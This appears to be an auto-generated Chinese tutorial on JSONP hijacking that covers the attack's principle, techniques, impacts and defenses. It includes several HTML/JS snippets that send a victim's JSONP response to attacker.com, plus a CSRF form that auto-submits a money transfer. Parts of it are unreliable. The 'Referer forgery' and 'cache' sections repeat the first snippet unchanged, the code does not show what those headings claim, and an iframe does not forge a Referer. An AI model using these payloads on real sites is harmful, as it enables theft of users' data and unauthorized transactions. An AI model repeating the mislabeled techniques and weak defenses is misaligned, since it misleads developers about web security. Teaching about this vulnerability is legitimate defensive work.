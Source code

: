 ### JSONP劫持漏洞简介

JSONP（JSON with Padding）是一种用于跨域数据请求的技术，通常用于解决浏览器的同源策略限制。JSONP的工作原理是通过动态创建`<script>`标签，将跨域请求的数据作为JavaScript代码返回，并在客户端通过回调函数处理数据。然而，JSONP的这种特性也带来了安全风险，尤其是在未正确验证请求来源的情况下，可能导致JSONP劫持漏洞。

### JSONP劫持漏洞的原理

JSONP劫持漏洞的核心在于攻击者能够利用JSONP接口返回的数据，窃取用户的敏感信息。具体来说，当JSONP接口未对请求来源进行严格验证时，攻击者可以构造恶意页面，诱导用户访问该页面，从而窃取用户的JSONP数据。

### 常见的JSONP劫持攻击手法

1. **未验证请求来源**  
   JSONP接口通常通过`callback`参数指定回调函数名。如果服务器未对请求来源进行验证，攻击者可以构造恶意页面，指定自己的回调函数，从而窃取返回的数据。

   ```html
   <script>
       function maliciousCallback(data) {
           // 窃取数据并发送到攻击者服务器
           fetch('https://attacker.com/steal', {
               method: 'POST',
               body: JSON.stringify(data)
           });
       }
   </script>
   <script src="https://victim.com/api?callback=maliciousCallback"></script>
   ```

2. **利用Referer头**  
   有些JSONP接口可能会检查`Referer`头，确保请求来自合法的域名。然而，攻击者可以通过伪造`Referer`头绕过这种检查。

   ```html
   <iframe src="https://attacker.com/fake-referer"></iframe>
   <script>
       function maliciousCallback(data) {
           fetch('https://attacker.com/steal', {
               method: 'POST',
               body: JSON.stringify(data)
           });
       }
   </script>
   <script src="https://victim.com/api?callback=maliciousCallback"></script>
   ```

3. **利用CSRF漏洞**  
   JSONP劫持漏洞通常与CSRF（跨站请求伪造）漏洞结合使用。攻击者可以构造恶意表单或AJAX请求，诱导用户执行敏感操作。

   ```html
   <form action="https://victim.com/transfer" method="POST">
       <input type="hidden" name="amount" value="1000">
       <input type="hidden" name="to" value="attacker">
   </form>
   <script>
       document.forms[0].submit();
   </script>
   ```

4. **利用浏览器缓存**  
   如果JSONP接口的响应被浏览器缓存，攻击者可以通过构造恶意页面，诱导用户访问缓存的数据，从而窃取敏感信息。

   ```html
   <script>
       function maliciousCallback(data) {
           fetch('https://attacker.com/steal', {
               method: 'POST',
               body: JSON.stringify(data)
           });
       }
   </script>
   <script src="https://victim.com/api?callback=maliciousCallback"></script>
   ```

### JSONP劫持漏洞的利用方式

1. **窃取用户数据**  
   攻击者可以通过JSONP劫持漏洞窃取用户的敏感信息，如个人信息、账户余额、交易记录等。

2. **执行敏感操作**  
   攻击者可以利用JSONP劫持漏洞执行敏感操作，如转账、修改账户信息、删除数据等。

3. **扩大攻击范围**  
   JSONP劫持漏洞可以与其他漏洞结合使用，扩大攻击范围。例如，结合XSS（跨站脚本）漏洞，攻击者可以在受害者的浏览器中执行恶意脚本。

### 防御措施

1. **验证请求来源**  
   服务器应验证JSONP请求的来源，确保请求来自合法的域名。可以通过检查`Referer`头或使用CSRF令牌来实现。

2. **限制回调函数名**  
   服务器应限制回调函数名的范围，避免攻击者指定恶意回调函数。可以使用白名单机制，只允许预定义的回调函数名。

3. **使用CORS替代JSONP**  
   尽可能使用CORS（跨域资源共享）替代JSONP，CORS提供了更安全的跨域数据请求机制。

4. **禁用缓存**  
   对于敏感的JSONP接口，应禁用浏览器缓存，避免攻击者通过缓存窃取数据。

5. **使用HTTPS**  
   使用HTTPS加密通信，防止攻击者窃听或篡改数据。

### 总结

JSONP劫持漏洞是一种常见的Web安全漏洞，攻击者可以利用该漏洞窃取用户的敏感信息或执行敏感操作。为了防御JSONP劫持漏洞，开发人员应验证请求来源、限制回调函数名、使用CORS替代JSONP、禁用缓存并使用HTTPS加密通信。通过这些措施，可以有效降低JSONP劫持漏洞的风险，保护用户的数据安全。

---

*文档生成时间: 2025-03-11 14:19:52*






















